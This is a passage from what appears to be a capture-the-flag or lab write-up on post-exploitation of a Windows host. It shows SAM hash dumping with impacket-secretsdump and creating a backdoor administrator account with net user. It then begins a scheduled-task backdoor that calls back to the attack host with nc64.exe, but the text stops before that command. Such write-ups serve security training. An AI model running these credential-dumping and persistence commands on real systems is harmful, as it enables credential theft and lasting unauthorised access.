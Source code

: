 ### Dumping SAM Hashes: {#dumping-sam-hashes}

As we already have the Administrator password we can create sessions via `impacket-psexec` anytime we want however we will also dump the SAM hashes too.

-   +Note+: I know this is kind of redundant as if they were to change the administrator password we would still be locked out&#x2026;.



```shell
impacket-secretsdump $user:$pass@$box
```

-   {{< figure src="/ox-hugo/2025-04-21-163700_.png" >}}


### Making a new admin user: {#making-a-new-admin-user}

Let's make a new admin user to be safe.

```powershell
#Add the new user
net user bloodstiller bl00dst1ll3r! /add
#Add the user to local admin
net localgroup Administrators bloodstiller /add
```

-   {{< figure src="/ox-hugo/2025-04-21-164132_.png" >}}

Verify it works:

-   {{< figure src="/ox-hugo/2025-04-21-164019_.png" >}}


### Creating a scheduled task: {#creating-a-scheduled-task}

Just to be safe let's create a scheduled task as NT Authority\System to call back out to our attack host periodically.

Why do this, in the event that the administrator changes the password or our new admin user is deleted this will ensure we can still get a high privileged shell. Granted this is very rudimentary means to do so as most people would use a C2 for this.


#### Creating a scheduled task back-door: {#creating-a-scheduled-task-back-door}

A great means of creating persistence is to create a scheduled task that runs periodically and calls back out to our attack machine. I've put two approaches below.


##### Version 1: Using `nc64.exe` to connect back to our attack host periodically: {#version-1-using-nc64-dot-exe-to-connect-back-to-our-attack-host-periodically}

First we need to transfer `nc64.exe` binary over.

We can create the scheduled task backdoor using `schtasks`:
